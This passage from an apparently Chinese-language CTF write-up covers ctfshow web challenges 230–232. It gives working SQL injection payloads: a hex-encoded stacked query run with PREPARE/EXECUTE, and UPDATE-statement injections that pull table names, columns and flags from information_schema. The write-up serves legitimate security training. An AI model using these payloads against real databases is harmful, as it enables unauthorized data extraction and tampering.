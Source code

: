 ## web230

还是十六进制预编译

```
?username=1';PREPARE name from 0x73656C656374202A2066726F6D20666C61676161626278;EXECUTE name;
```

# 八、update注入

## web231~update注入

> 查询语句
>
> ```
>   //分页查询
>   $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
>       
> ```

payload:

```
password=1',username=(select group_concat(table_name) from information_schema.tables where table_schema=database())where 1#&username=1
# 得到 banlist,ctfshow_user,flaga

password=1',username=(select group_concat(column_name) from information_schema.columns where table_name='flaga')where 1#&username=1
# 得到 id,flagas,info

password=1',username=(select group_concat(flagas) from flaga)where 1#&username=1
# 得到flag
```

## web232~单引号括号闭合

> 查询语句
>
> ```
>   //分页查询
>   $sql = "update ctfshow_user set pass = md5('{$password}') where username = '{$username}';";
>       
> ```

和上一题一样的，

只不过闭合方式发生了变化。

payload:

```
password=1'),username=(select group_concat(flagass) from flagaa)where 1#&username=1
```
